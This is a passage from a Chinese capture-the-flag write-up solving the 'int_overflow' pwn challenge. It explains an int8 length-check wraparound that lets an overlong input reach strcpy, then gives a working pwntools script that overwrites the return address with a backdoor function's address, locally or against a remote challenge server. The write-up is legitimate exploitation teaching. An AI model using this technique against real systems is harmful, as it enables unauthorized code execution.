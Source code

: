 ```python
p.sendlineafter(':', '4')
p.sendlineafter(':', '2')

p.interactive()
```

## int_overflow

> 菜鸡感觉这题似乎没有办法溢出，真的么?

```
[*] '/ctf/work/adworld/int_overflow/532be1161263482890e88772bcde6470'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

逐个函数检查一下看看有没有问题

![](https://vip1.loli.net/2019/12/27/zmcp4duJi2SvVkA.png)

login 函数没有问题，read 进来的值小于申请的值。

![](https://vip1.loli.net/2019/12/27/u14wkhSJXaBPLeN.png)

看到 check_passwd 的时候就发现问题了，其中使用了 strcpy 函数，将 s 复制到 dest，而 dest 的大小只有 11

而表示 s 长度的 v3 变量，类型是一个 int8，而 int8 的大小范围是 -128~127，也就是说，我们可以通过上溢 v3 绕过长度限制，从而通过 strcpy 来栈溢出覆盖返回地址实现攻击

v3 要求在 [4, 8] 之间，通过上溢的话 `127+128+4=259` 以及 `127+128+8=263` ，我们需要构建 payload 的长度在这个范围 [259, 263] 内即可通过长度校验

![](https://vip1.loli.net/2019/12/27/5xCe1zHZtcTE6fU.png)

函数中有现成的后门，直接将返回地址设置成这个函数的即可，这里的地址是 `0x0804868B`

接下来确定输出多少位能覆盖到返回地址

![](https://vip1.loli.net/2019/12/27/wo9KdzQrHnXYjh8.png)

根据上图可以知道，是 `0x14+0x4=0x18`

最终，我们能够写出以下脚本实现攻击，我使用了 `ljust` 来凑够 259 位的长度

```python
#!/usr/bin/env python

from pwn import *

proc = './532be1161263482890e88772bcde6470'

context.binary = proc
context.log_level = 'debug'

if args.R:
    p = remote('111.198.29.45', 39249)
else:
    p = process(proc)

p.sendlineafter(':', '1')
p.sendlineafter(':', 'imlonghao')
p.sendlineafter(':', ('a'*0x18 + p32(0x0804868B)).ljust(259))

p.interactive()
```